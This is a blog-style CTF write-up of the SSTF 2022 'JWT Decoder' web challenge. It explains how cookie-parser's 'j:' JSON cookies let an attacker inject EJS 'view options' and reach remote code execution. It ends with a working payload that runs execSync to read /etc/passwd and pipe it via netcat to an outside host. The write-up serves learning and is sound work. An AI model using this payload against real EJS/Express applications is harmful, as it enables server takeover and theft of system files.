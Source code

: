 ```yaml
---
layout: post
title: "SSTF 2022 JWT Decoder Write Up"
date: 2022-08-23 04:00:53
description: This article is about write-up for the SSTF 2022. there is only one web challenge, which contain JWT bug
imgurl: https://cdn.codeground.org/nsr/images/meta/1_SSTF.png
---
```

 I participated in the CTF called sstf after 5 months. Today, I wrote that how to solve a JWT Decoder.

```zsh
~/Downloads/prob
❯ tree -I "node_modules"
.
├── Dockerfile
├── docker-compose.yml
├── flag.txt
└── server
    ├── app.js
    ├── nc
    ├── package-lock.json
    ├── package.json
    └── view
        └── index.ejs

2 directories, 8 files

~/Downloads/prob
❯
```
They provided the file as above.

```json
{
  "dependencies": {
    "cookie-parser": "^1.4.6",
    "ejs": "^3.1.6",
    "express": "^4.17.3"
  }
}
```
And when i check the package.json, I could know to use ejs 3.1.6 version. Already many researcher know about how to trigger an RCE in ejs environment. When the ejs parser is working, it make a javascript code as dynamic and then execute it. At the time, there are some gadgets. this gadget is outputFunctionName and destructuredLocals.

While making javascript code, it use after get a value in opts object. But, Normally If you want to pollute a value of opts.outputFunctionName, A Prototype Pollution vulnerability must exist. But there is no.

```javascript
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
// https://github.com/mde/ejs/blob/v3.1.6/lib/ejs.js#L473L476
```
I found that using the utils.shallowCopy() method in the EJS code to overwrite the value of data.settings.view.options with the properties of the opts object.

```javascript

const express = require('express');
const cookieParser = require('cookie-parser');
const path = require('path');
const app = express();
const PORT = 3000;

app.use(cookieParser());
app.set('views', path.join(__dirname, "view"));
app.set('view engine', 'ejs');

app.get('/', (req, res) => {
    let rawJwt = req.cookies.jwt || {};

    try {
        let jwtPart = rawJwt.split('.');

        let jwtHeader = jwtPart[0];
        jwtHeader = Buffer.from(jwtHeader, "base64").toString('utf8');
        jwtHeader = JSON.parse(jwtHeader);
        jwtHeader = JSON.stringify(jwtHeader, null, 4);
        rawJwt = {
            header: jwtHeader
        }

        let jwtBody = jwtPart[1];
        jwtBody = Buffer.from(jwtBody, "base64").toString('utf8');
        jwtBody = JSON.parse(jwtBody);
        jwtBody = JSON.stringify(jwtBody, null, 4);
        rawJwt.body = jwtBody;

        let jwtSignature = jwtPart[2];
        rawJwt.signature = jwtSignature;

    } catch(error) {
        if (typeof rawJwt === 'object') {
            rawJwt.error = error;
        } else {
            rawJwt = {
                error: error
            };
        }
    }
    res.render('index', rawJwt);
});

app.use(function(err, req, res, next) {
    console.error(err.stack);
    res.status(500).send('Something wrong!');
});

app.listen(PORT, (err) => {
    console.log(`Server is Running on Port ${PORT}`);
});
```
This is the challenge code. It was found that the value of the cookie was taken, divided by ".", and the values of the header, body, and signature of JWT were put into an object called rawJwt. However, we cannot insert Object because all values are converted back to strings after the strings are converted to JSON type.

Anyway, I could know that the rawJwt object is created and passed as the second argument to the render() method.

```javascript
exports.render = function (template, d, o) {
  var data = d || {};
  var opts = o || {};

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
// https://github.com/mde/ejs/blob/v3.1.6/lib/ejs.js#L413L424
```
The second argument to the render() method goes into the data object. So we have to insert an user-defined object to rawJwt object.

```javascript
function JSONCookie (str) {
  if (typeof str !== 'string' || str.substr(0, 2) !== 'j:') {
    return undefined
  }

  try {
    return JSON.parse(str.slice(2))
  } catch (err) {
    return undefined
  }
}

/**
 * Parse JSON cookies.
 *
 * @param {Object} obj
 * @return {Object}
 * @public
 */

function JSONCookies (obj) {
  var cookies = Object.keys(obj)
  console.log(cookies)
  var key
  var val
  console.log(cookies)
  for (var i = 0; i < cookies.length; i++) {
    key = cookies[i]
    val = JSONCookie(obj[key])

    if (val) {
      obj[key] = val
    }
  }
  return obj
}
// https://github.com/expressjs/cookie-parser/blob/master/index.js#L83L118
```
We generally cannot insert object data into rawJwt objects. However, as a result of analyzing the code of the cookie-parser module, I was able to find out the JsonCookie () function. The JsonCookie () function converts the argument value to JSON in the try statement if it starts with `j:` when the value of the argument is an object.

```json
j:{
  "settings":{
    "view options":{
      "outputFunctionName":"x;process.mainModule.require('child_process').execSync('cat /etc/passwd | nc pocas.kr 9999')//"
    }
  }
}
```
I wrote the payload as above

![](https://cdn.discordapp.com/attachments/966582609377361920/1011607890169167892/2022-08-23_21.08.25.png)

When I sent the payload, I could see that RCE occurred as above.
